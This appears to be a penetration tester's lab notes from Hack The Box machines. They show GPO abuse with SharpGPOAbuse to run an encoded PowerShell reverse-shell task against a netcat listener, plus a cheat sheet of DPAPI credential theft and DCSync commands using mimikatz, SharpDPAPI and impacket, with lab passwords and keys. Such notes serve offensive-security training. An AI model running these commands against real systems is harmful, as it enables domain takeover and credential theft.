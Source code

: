 ```
┌──(chw㉿CHW)-[~/Desktop/upload_tools]
└─$ export KRB5CCNAME=M.SchoolBus.ccache                       
┌──(chw㉿CHW)-[~/Desktop/upload_tools]
└─$ KRB5CCNAME=M.SchoolBus.ccache \
scp -P 22 -o GSSAPIAuthentication=yes -o PreferredAuthentications=gssapi-with-mic \
  ./SharpGPOAbuse.exe m.schoolbus@frizz.htb:"C:/Users/m.schoolbus/Desktop/"
SharpGPOAbuse.exe                                                                                                 100%   79KB  70.3KB/s   00:01    

┌──(chw㉿CHW)-[~/Desktop/upload_tools]
└─$ nc -lvnp 8888               
listening on [any] 8888 ...

```
```
PS C:\Users\M.SchoolBus\Desktop> .\SharpGPOAbuse.exe --addcomputertask --gponame "chw" --author TCG --taskname PrivEsc --command "powershell.exe" --arguments "powershell -e ...=="
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] GUID of "chw" is: {BC54F62C-D0BC-4C50-AFD7-43E0ACE49DA2}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{BC54F62C-D0BC-4C50-AFD7-43E0ACE49DA2}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!

PS C:\Users\M.SchoolBus\Desktop> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```
### DPAPI
(Bloodhound 沒路時可嘗試)
- mimikatz: 
    - `mimikatz.exe "dpapi::cred /in:C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\<file>"`
    - `.\mimikatz.exe "lsadump::dcsync /user:puppy\administrator" exit`
- [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) ([Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/tree/master)): `/home/chw/Desktop/upload_tools/SharpDPAPI.exe`
    - `PS C:\Users\steph.cooper\Documents> .\SharpDPAPI.exe masterkeys /password:ChefSteph2025!` (User 的 pass)
    - ```
        .\SharpDPAPI.exe machinemasterkeys
        .\SharpDPAPI.exe machinecredentials
        .\SharpDPAPI.exe machinetriage  
        ```
    - `.\SharpDPAPI.exe credentials /password:ChefSteph2025! /target:C:\Users\steph.cooper\AppData\Roaming\Microsoft\<Windows Credential Manager blob>`
- 離線爆: User密碼 和 SID 解密用户的 DPAPI 主密碼
(參考 [HTB: Puppy](https://hackmd.io/@CHW/ByxGpuIkcgl#8-DPAPI))
    - `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407`
    - `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9`
    - (Kali)
    - `impacket-dpapi masterkey -file 556a2412_masterkey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'`
    - `impacket-dpapi credential -f C8D69E_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84`
